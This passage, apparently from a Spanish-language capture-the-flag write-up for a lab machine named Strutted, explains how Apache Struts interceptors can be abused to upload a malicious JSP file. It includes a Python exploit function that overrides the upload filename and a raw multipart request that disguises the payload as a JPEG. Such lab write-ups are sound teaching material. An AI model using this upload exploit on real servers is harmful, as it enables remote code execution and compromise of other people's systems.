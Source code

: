 ~~~ bash
def exploit(self) -> None:
        files = {
            'Upload': ("exploit_file.jsp", self.file_content, 'text/plain'),
            'top.UploadFileName': (None, self.path),
        }

        try:
            response = requests.post(self.url, files=files)
            print("Status Code:", response.status_code)
            print("Response Text:", response.text)
            if response.status_code == 200:
                print("File uploaded successfully.")
            else:
                print("Failed to upload file.")
        except requests.exceptions.RequestException as e:
            print(f"Request failed: {e}")
~~~

Pero tenemos un pequeño problema, no podremos enviar un archivo `.jsp` malicioso directamente, ya que el servidor solo admite archivos de imagen (`png`, `jpg`, `gif` o `jpeg`)

### Understanding Interceptors

Dentro de Apache Struts, podemos utilizar componentes que se ejecutan antes y después de una ejecución en el servidor (`action`). Estos componentes pueden agregar lógica adicional a estas acciones del servidor, como por ejemplo: validaciones de datos, manejo de sesión, etc.

- Una acción o `action` son clases dentro de la lógica definida en el código de la web que controlan las solicitudes del usuario, por ejemplo: `upload.action`, ejecuta la clase `Upload`

![image-center](/assets/images/posts/strutted-request.png)
{: .align-center}

Estos componentes son conocidos como Interceptores, (`Interceptors` en inglés). Y en el contexto de esta vulnerabilidad, podemos aprovechar estos interceptores para manipularlos y enviar un archivo que derive en ejecución de código 

~~~ bash
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------32834433022857169198100887216
Content-Length: 1192
Origin: http://strutted.htb
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://strutted.htb/upload.action
Cookie: JSESSIONID=99D75D10643DF4788C0CCE1B8C70CD4B
Upgrade-Insecure-Requests: 1
Priority: u=0, i
...
...
-----------------------------304365947826637974553275897232
Content-Disposition: form-data; name="Upload"; filename="cat.jpeg"
Content-Type: image/jpeg
~~~